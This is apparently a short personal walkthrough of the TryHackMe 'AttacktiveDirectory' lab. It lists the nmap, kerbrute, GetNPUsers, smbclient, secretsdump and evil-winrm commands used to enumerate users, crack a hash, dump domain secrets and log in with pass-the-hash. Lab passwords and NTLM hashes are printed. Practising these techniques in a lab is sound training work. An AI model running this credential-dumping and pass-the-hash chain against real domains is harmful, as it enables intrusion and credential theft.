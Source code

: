 # AttacktiveDirectory

[link to the room](https://tryhackme.com/room/attacktivedirectory)


`export ip=10.10.216.201`


## recon

nmap : `nmap -A -vv -T5 -oN recon/nmap $ip`
kerbrute: `./kerbrute_linux_amd64 userenum --dc $ip -d spookysec.local ~/Personal/ctf/tryhackme/attacktivedirectory/payloads/userlist.txt`

## enumeration

- `svc-admin` & `backup` users
- check with `GetNPUsers.py` to see if there is any users which does not require pre auth.
- crack the hash for `svc-admin`: management2005
- enumerate shares `smbclient -U svc-admin -L 10.10.247.188` or `python smbmap.py -H 10.10.247.188 -u svc-admin -p management2005`
- in `backup` share we found `backup@spookysec.local:backup2517860`
- dump secrets from NTDS.DIT `sudo python3 secretsdump.py -dc-ip 10.10.58.153 spookysec.local/backup:backup2517860@10.10.58.153`
- administrator ntlm hash : `0e0363213e37b94221497260b0bcb4fc`
- use pass the hash attack with evil-winrm : `evil-winrm -i 10.10.58.153 -u svc-admin -H fc0f1e5359e372aa1f69147375ba6809`




